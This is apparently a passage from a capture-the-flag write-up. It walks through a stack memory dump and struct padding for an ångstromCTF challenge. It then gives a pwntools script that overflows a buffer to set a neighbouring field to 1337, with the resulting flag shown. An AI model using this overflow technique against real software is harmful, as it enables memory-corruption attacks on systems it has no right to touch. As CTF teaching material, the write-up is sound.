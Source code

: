 ```
```
0x7fffffffdf00: 0xffffdf10      0x00007fff      0x00000004      0x00000000
0x7fffffffdf10: 0x47474747      0x00007f00      0x00000003      0x00000000
0x7fffffffdf20: 0x00736579      0x42424242      0x43434343      0x00444444
0x7fffffffdf30: 0xffffdf40      0x00007fff      0x00000004      0x00000000
0x7fffffffdf40: 0x46464646      0x00007f00      0x55555140      0x00005555
0x7fffffffdf50: 0x00000000      0x00000000      0x3a852500      0x9d41160a
0x7fffffffdf60: 0x55556082      0x00005555      0x00000000      0x00000000
0x7fffffffdf70: 0xffffdfc0      0x00007fff      0x5555585b      0x00005555
0x7fffffffdf80: 0xffffdf90      0x00007fff      0x00000001      0x00000000
0x7fffffffdf90: 0x00000031      0x00000000      0x00000000      0x00000000
```
> Note: The signature ```EEEE``` (```0x45454545```) is overridden in the moment in which we input other values <br>
> Note: The name ```FFFF``` (```0x46464646```) is at ```0x7fffffffdf40``` <br>
> Note: The action ```GGGG``` (```0x47474747```) is at ```0x7fffffffdf10``` <br>

It's just how the stack works, but there's more! Why doesn't the ```string``` start when the ```long``` ends? <br>
The answer is that padding is added to satisfy alignment constraints! <br>
It's rare to have a struct with a ```sizeof``` equal to the sum of ```sizeof``` of each member. <br> <br>

We see no other ```0x42424242``` other that the ones we gave, so our hypothesis is confirmed! <br>

# Exploit

If we replace the ```0x42424242``` with the hex values of ```1337```, we will win!

{% highlight python %}
import pwn

r = pwn.remote("shell.actf.co", 21300) # Open connection
	
r.recvuntil("do? ") # MAIN: action
r.sendline(b"1")

r.recvuntil("conditions? ") # TERMS_AND_CONDITIONS: agreement
r.sendline(b"AAAA" + pwn.p32(1337)) # b'AAAA9\x05\x00\x00'

r.recvuntil("conditions? ") # TERMS_AND_CONDITIONS: agreement
r.sendline(b"yes")

r.recvuntil("here: ") # TERMS_AND_CONDITIONS: signature
r.sendline(b"Ve")

r.recvuntil("name: ") # PLAY: name
r.sendline(b"Ve")

r.recvuntil("do? ") # PLAY: action
r.sendline(b"2")

print(r.recvline().decode().strip()) # PLAY: flag

r.close()
{% endhighlight %}

# Exploit output

```It's a tough battle, but you emerge victorious. The flag has been recovered successfully: actf{great_job!_speaking_of_great_jobs,_our_sponsor_audible...}```
